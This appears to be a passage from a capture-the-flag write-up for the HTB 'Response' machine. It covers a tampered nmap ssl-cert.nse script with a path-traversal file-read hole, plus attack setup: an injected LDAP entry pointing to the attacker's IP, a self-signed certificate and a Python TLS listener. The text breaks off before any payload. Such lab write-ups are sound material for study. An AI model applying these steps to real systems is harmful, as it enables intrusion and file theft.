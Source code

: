 ## NSE scripts.
Checking when the scripts were created `ssl-cert.nse` has a different date. Checking this version against the normal nmap script shows the following difference.
```lua
local function get_stateOrProvinceName(subject)
  stateOrProvinceName = read_file('data/stateOrProvinceName/' .. subject['stateOrProvinceName'])
  if (stateOrProvinceName == '') then
    return 'NO DETAILS AVAILABLE'
  end
  return stateOrProvinceName
end
```

LFI on line 2 not checking for `../../` (input sanitation)
tracing this back it comes from the certificate that we can create.

## LFI time
### Setup
We need a LDAP server, a DNS server and a SMTP server.
#### LDAP
Make a fake ldap entry
```bash
# TestServer, servers, response.htb
dn: cn=mail.response-test,ou=servers,dc=response,dc=htb
objectClass: top
objectClass: ipHost
objectClass: device
cn: myserver  
manager: uid=who,ou=customers,dc=response,dc=htb
ipHostNumber: 10.10.14.67
```

Add the entry
```bash
ldapadd -D 'cn=admin,dc=response,dc=htb' -w $pwd -f ./eljay.ldif
```

This reaches back to us!

#### Certificate
```bash
openssl req -x509 -nodes -newkey rsa:4096 -keyout key.pem -out cert.pem -sha256 -days 2
```

Checking everything works before doing the LFI.

Creating a ssl server in python.
```python
from http.server import HTTPServer, SimpleHTTPRequestHandler
import ssl

httpd = HTTPServer(('',443),SimpleHTTPRequestHandler)
httpd.socket = ssl.wrap_socket(httpd.socket,keyfile='./key.pem',certfile='./cert.pem', server_side=True)
httpd.serve_forever()
```
